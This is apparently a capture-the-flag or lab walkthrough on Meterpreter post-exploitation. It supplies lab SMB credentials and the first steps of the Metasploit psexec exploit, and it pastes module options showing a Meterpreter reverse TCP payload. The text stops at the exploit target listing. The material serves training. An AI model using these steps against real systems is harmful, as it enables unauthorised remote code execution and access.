 
The questions below will help you have a better understanding of how Meterpreter can be used in ```post-exploitation```.

You can use the ```credentials``` below to simulate an initial compromise over ```SMB (Server Message Block) (using exploit/windows/smb/psexec```)

Username: ballen

Password: Password1

---
Step 1: msfconsole; use the exploit/windows/smb/psexec 
```
use exploit/windows/smb/psexec
```
```
msf6 exploit(windows/smb/psexec) > 

```
Step 2: show options
```
show options
```
```
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   RHOSTS                              yes       The target host(s), see https
                                                 ://docs.metasploit.com/docs/u
                                                 sing-metasploit/basics/using-
                                                 metasploit.html
   RPORT              445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTI                   no        Service description to be use
   ON                                            d on target for pretty listin
                                                 g
   SERVICE_DISPLAY_N                   no        The service display name
   AME
   SERVICE_NAME                        no        The service name
   SMBDomain          .                no        The Windows domain to use for
                                                  authentication
   SMBPass                             no        The password for the specifie
                                                 d username
   SMBSHARE                            no        The share to connect to, can
                                                 be an admin share (ADMIN$,C$,
                                                 ...) or a normal read/write f
                                                 older share
   SMBUser                             no        The username to authenticate
                                                 as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     10.10.4.154      yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

```